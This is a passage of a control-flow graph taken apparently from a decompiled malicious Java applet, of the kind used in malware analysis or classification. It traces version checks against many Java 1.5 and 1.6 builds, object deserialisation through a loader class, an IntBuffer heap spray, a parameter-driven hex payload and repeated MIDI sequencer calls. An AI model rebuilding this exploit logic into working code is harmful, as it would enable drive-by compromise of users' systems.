    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"
    "store.r r28"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r28";
    "store.r r28"->"load.r r25";
    "push \"1.5.0\""
    "load.r r25"->"push \"1.5.0\"";
    "ifcmpeq.r new java.io.ObjectInputStream"
    "push \"1.5.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_01\""
    "load.r r25"->"push \"1.5.0_01\"";
    "push \"1.5.0_01\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpne.i new java.io.ObjectInputStream"
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_02\""
    "load.r r25"->"push \"1.5.0_02\"";
    "push \"1.5.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_03\""
    "load.r r25"->"push \"1.5.0_03\"";
    "push \"1.5.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_04\""
    "load.r r25"->"push \"1.5.0_04\"";
    "push \"1.5.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_05\""
    "load.r r25"->"push \"1.5.0_05\"";
    "push \"1.5.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_06\""
    "load.r r25"->"push \"1.5.0_06\"";
    "push \"1.5.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_07\""
    "load.r r25"->"push \"1.5.0_07\"";
    "push \"1.5.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_08\""
    "load.r r25"->"push \"1.5.0_08\"";
    "push \"1.5.0_08\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_09\""
    "load.r r25"->"push \"1.5.0_09\"";
    "push \"1.5.0_09\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_10\""
    "load.r r25"->"push \"1.5.0_10\"";
    "push \"1.5.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_11\""
    "load.r r25"->"push \"1.5.0_11\"";
    "push \"1.5.0_11\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_12\""
    "load.r r25"->"push \"1.5.0_12\"";
    "push \"1.5.0_12\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_13\""
    "load.r r25"->"push \"1.5.0_13\"";
    "push \"1.5.0_13\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_14\""
    "load.r r25"->"push \"1.5.0_14\"";
    "push \"1.5.0_14\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_15\""
    "load.r r25"->"push \"1.5.0_15\"";
    "push \"1.5.0_15\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.5.0_16\""
    "load.r r25"->"push \"1.5.0_16\"";
    "push \"1.5.0_16\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0\""
    "load.r r25"->"push \"1.6.0\"";
    "push \"1.6.0\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_01\""
    "load.r r25"->"push \"1.6.0_01\"";
    "push \"1.6.0_01\""->"ifcmpeq.r new java.io.ObjectInputStream";
    "ifcmpeq.r new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_02\""
    "load.r r25"->"push \"1.6.0_02\"";
    "push \"1.6.0_02\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_03\""
    "load.r r25"->"push \"1.6.0_03\"";
    "push \"1.6.0_03\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_04\""
    "load.r r25"->"push \"1.6.0_04\"";
    "push \"1.6.0_04\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_05\""
    "load.r r25"->"push \"1.6.0_05\"";
    "push \"1.6.0_05\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_06\""
    "load.r r25"->"push \"1.6.0_06\"";
    "push \"1.6.0_06\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_07\""
    "load.r r25"->"push \"1.6.0_07\"";
    "push \"1.6.0_07\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i new java.io.ObjectInputStream";
    "ifcmpne.i new java.io.ObjectInputStream"->"load.r r25";
    "push \"1.6.0_10\""
    "load.r r25"->"push \"1.6.0_10\"";
    "push \"1.6.0_10\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "ifcmpeq.i load.r r25"
    "push -1"->"ifcmpeq.i load.r r25";
    "new java.io.ObjectInputStream"
    "ifcmpeq.i load.r r25"->"new java.io.ObjectInputStream";
    "new java.io.ObjectInputStream"->"dup1.r";
    "new java.io.ByteArrayInputStream"
    "dup1.r"->"new java.io.ByteArrayInputStream";
    "new java.io.ByteArrayInputStream"->"dup1.r";
    "dup1.r"->"load.r r0";
    "fieldget <kav.sucks: java.lang.String SO>"
    "load.r r0"->"fieldget <kav.sucks: java.lang.String SO>";
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"
    "fieldget <kav.sucks: java.lang.String SO>"->"staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>";
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"
    "staticinvoke <dev.s.DyesyasZ: byte[] StringToBytes(java.lang.String)>"->"specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>";
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"
    "specialinvoke <java.io.ByteArrayInputStream: void <init>(byte[])>"->"specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"
    "specialinvoke <java.io.ObjectInputStream: void <init>(java.io.InputStream)>"->"virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>";
    "virtualinvoke <java.io.ObjectInputStream: java.lang.Object readObject()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>"->"store.r r28";
    "ifnull goto load.r r25"
    "store.r r28"->"ifnull goto load.r r25";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "ifnull goto load.r r25"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"ifnull goto load.r r25";
    "ifnull goto load.r r25"->"load.r r28";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"
    "load.r r28"->"ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "ifnonnull staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"push \"\"";
    "push \"\""->"store.r r28";
    "store.r r28"->"staticget <dev.s.LoaderX: dev.s.LoaderX instance>";
    "staticget <dev.s.LoaderX: dev.s.LoaderX instance>"->"load.r r28";
    "load.r r28"->"push \"1\"";
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"
    "push \"1\""->"virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>";
    "goto load.r r25"
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"->"goto load.r r25";
    "goto load.r r25"->"load.r r25";
    "push \"1.5.0_17\""
    "load.r r25"->"push \"1.5.0_17\"";
    "push \"1.5.0_17\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_18\""
    "load.r r25"->"push \"1.5.0_18\"";
    "push \"1.5.0_18\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_19\""
    "load.r r25"->"push \"1.5.0_19\"";
    "push \"1.5.0_19\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_20\""
    "load.r r25"->"push \"1.5.0_20\"";
    "push \"1.5.0_20\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"load.r r25";
    "push \"1.5.0_21\""
    "load.r r25"->"push \"1.5.0_21\"";
    "push \"1.5.0_21\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 1";
    "ifcmpne.i push 1"->"push 0";
    "store.b r25"
    "push 0"->"store.b r25";
    "store.b r25"->"goto load.r r26";
    "goto load.r r26"->"load.r r26";
    "load.r r26"->"push \"i=1\"";
    "push \"i=1\""->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"push -1";
    "push -1"->"ifcmpne.i push 0";
    "ifcmpne.i push 0"->"push 1";
    "store.b r26"
    "push 1"->"store.b r26";
    "goto load.b r25"
    "store.b r26"->"goto load.b r25";
    "load.b r25"
    "goto load.b r25"->"load.b r25";
    "load.b r26"
    "load.b r25"->"load.b r26";
    "load.b r26"->"and.b";
    "ifeq return"
    "and.b"->"ifeq return";
    "ifeq return"->"push 47";
    "push 47"->"push 303";
    "push 303"->"staticinvoke <kav.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <kav.sucks: java.lang.String repeat(char,int)>"->"pop";
    "pop"->"load.r r20";
    "load.r r20"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"virtualinvoke <java.lang.String: java.lang.String toLowerCase()>";
    "virtualinvoke <java.lang.String: java.lang.String toLowerCase()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int indexOf(java.lang.String)>";
    "virtualinvoke <java.lang.String: int indexOf(java.lang.String)>"->"iflt return";
    "iflt return"->"push 47";
    "push 304"
    "push 47"->"push 304";
    "push 304"->"staticinvoke <kav.sucks: java.lang.String repeat(char,int)>";
    "staticinvoke <kav.sucks: java.lang.String repeat(char,int)>"->"store.r r20";
    "store.r r20"->"goto new java.lang.StringBuilder";
    "goto new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"load.r r4";
    "load.r r4"->"virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>";
    "virtualinvoke <kav.sucks: java.lang.String getParameter(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"11\"";
    "push \"11\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r4";
    "store.r r4"->"push \"\"";
    "push \"\""->"store.r r24";
    "store.r r24"->"push 0";
    "store.i r26"
    "push 0"->"store.i r26";
    "goto load.i r26"
    "store.i r26"->"goto load.i r26";
    "load.i r26"
    "goto load.i r26"->"load.i r26";
    "load.i r26"->"load.r r4";
    "load.r r4"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"ifcmplt.i new java.lang.StringBuilder";
    "goto load.r r24"
    "ifcmplt.i new java.lang.StringBuilder"->"goto load.r r24";
    "goto load.r r24"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.String: int length()>";
    "virtualinvoke <java.lang.String: int length()>"->"push 8";
    "push 8"->"rem.i";
    "rem.i"->"ifne new java.lang.StringBuilder";
    "ifne new java.lang.StringBuilder"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"load.r r24";
    "load.r r24"->"load.r r16";
    "load.r r16"->"virtualinvoke <kav.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>";
    "virtualinvoke <kav.sucks: java.nio.IntBuffer[] spray(java.lang.String,java.lang.String)>"->"fieldput <kav.sucks: java.nio.IntBuffer[] mem>";
    "new java.net.URL"
    "fieldput <kav.sucks: java.nio.IntBuffer[] mem>"->"new java.net.URL";
    "new java.net.URL"->"load.r r20";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r20"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Sequencer getSequencer()>"->"pop";
    "pop"->"push 10L";
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "store.r r0"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
    "ifne new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "push \"26\""
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r24";
    "ifcmplt.i new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r24";
    "load.r r24"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "push \"toHexString\""
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"push \"toHexString\"";
    "push \"toHexString\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r r4";
    "load.r r4"->"load.i r26";
    "load.i r26"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r24";
    "inc.i r26 1"
    "store.r r24"->"inc.i r26 1";
    "iflt return"->"return";
    "ifeq return"->"return";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b r26";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r25";
    "virtualinvoke <dev.s.LoaderX: void lalafa(java.lang.String,java.lang.String)>"->"store.r r28";
    "store.r r28"->"staticget <java.lang.System: java.io.PrintStream out>";
    "staticget <java.lang.System: java.io.PrintStream out>"->"load.r r28";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"
    "load.r r28"->"virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>";
    "virtualinvoke <java.io.PrintStream: void println(java.lang.Object)>"->"load.r r28";
    "virtualinvoke <java.lang.Exception: void printStackTrace()>"
    "load.r r28"->"virtualinvoke <java.lang.Exception: void printStackTrace()>";
    "ifne new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push \"26\"";
    "push \"26\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r56";
    "ifcmplt.i new java.lang.StringBuilder"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r $r56";
    "load.r $r56"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"push 1";
    "push 1"->"staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>";
    "staticinvoke <java.lang.Integer: java.lang.Integer valueOf(int)>"->"push \"toHexString\"";
    "push \"toHexString\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"load.r $r51";
    "load.r $r51"->"load.i i53";
    "load.i i53"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>";
    "staticinvoke <java.lang.Character: java.lang.Character valueOf(char)>"->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>";
    "staticinvoke <dev.s.runer: java.lang.Object function(java.lang.Object,java.lang.String,java.lang.Object[])>"->"checkcast";
    "checkcast"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r $r56";
    "inc.i i53 1"
    "store.r $r56"->"inc.i i53 1";
    "iflt return"->"return";
    "ifcmpne.i push 0"->"push 0";
    "push 0"->"store.b $r51";
    "ifcmpne.i push 1"->"push 1";
    "push 1"->"store.b r28";
    "ifcmpne.c load.i $r51"->"load.i $r51";
    "load.i $r51"->"load.r r26";
    "load.r r26"->"load.i $r56";
    "load.i $r56"->"virtualinvoke <java.lang.String: char charAt(int)>";
    "virtualinvoke <java.lang.String: char charAt(int)>"->"add.i";
    "add.i"->"store.i $r51";
    "inc.i $r56 1"
    "store.i $r51"->"inc.i $r56 1";
}
